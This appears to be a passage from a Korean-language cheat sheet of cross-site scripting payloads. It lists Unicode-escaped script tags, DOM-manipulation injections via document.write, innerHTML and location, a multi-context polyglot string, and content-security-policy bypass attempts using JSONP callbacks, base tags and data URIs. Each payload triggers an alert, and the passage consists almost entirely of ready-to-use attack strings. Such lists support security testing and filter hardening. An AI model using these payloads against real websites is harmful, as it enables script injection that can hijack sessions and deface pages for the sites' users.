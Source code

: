 #### 3.3.4. 유니코드 인코딩
```html
<script>\u0061\u006c\u0065\u0072\u0074('XSS')</script>
<img src=x onerror=\u0061\u006c\u0065\u0072\u0074('XSS')>
```

### 3.4. DOM 조작 기반 페이로드

#### 3.4.1. Document.write 악용
```html
<img src=x onerror="document.write('<script>alert(\"XSS\")</script>')">
<svg onload="document.write('<img src=x onerror=alert(\"XSS\")>')">
```

#### 3.4.2. innerHTML 조작
```html
<div onclick="this.innerHTML='<img src=x onerror=alert(\"XSS\")>'">Click</div>
<button onclick="document.body.innerHTML='<script>alert(\"XSS\")</script>'">Click</button>
```

#### 3.4.3. location 객체 조작
```html
<img src=x onerror="location='javascript:alert(\"XSS\")'">
<svg onload="location.href='javascript:alert(\"XSS\")'">
<iframe src=x onerror="top.location='javascript:alert(\"XSS\")'">
```

### 3.5. 고급 우회 기법

#### 3.5.1. Polyglot 페이로드 (다중 컨텍스트)
```html
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert("XSS")//'>
```

#### 3.5.2. CSP 우회 시도

**JSONP 엔드포인트 악용:**
```html
<script src="https://example.com/jsonp?callback=alert"></script>
<script src="https://api.example.com/data?jsonp=alert"></script>
```

**base-uri 미설정 시:**
```html
<base href="javascript:alert('XSS');//">
<base href="data:text/html,<script>alert('XSS')</script>">
```

**unsafe-inline 허용 시:**
```html
<link rel=stylesheet href=data:text/css,*{x:expression(alert('XSS'))}>
<style>@import'data:text/css,*{x:expression(alert("XSS"))}';</style>
```
